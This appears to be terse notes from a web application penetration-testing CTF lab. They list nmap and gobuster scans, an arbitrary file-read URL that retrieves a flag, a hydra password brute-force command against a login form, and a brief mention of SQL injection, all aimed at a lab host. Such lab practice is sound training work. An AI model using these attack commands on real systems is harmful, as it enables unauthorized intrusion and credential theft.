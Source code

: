 Web Application Penetration Testing CTF 1
`nmap -sC -sV target.ine.local`

`gobuster dir -u http://target.ine.local -w wordlist.txt`

`http://target.ine.local/view_file?file=/flag.txt`
flag1

`hydra -L /usr/share/seclists/Usernames/top-usernames-shortlist.txt        -P /root/Desktop/wordlists/100-common-passwords.txt       target.ine.local       http-post-form "/login:username=^USER^&password=^PASS^:F=invalid"
`


flag 4 
std SqlI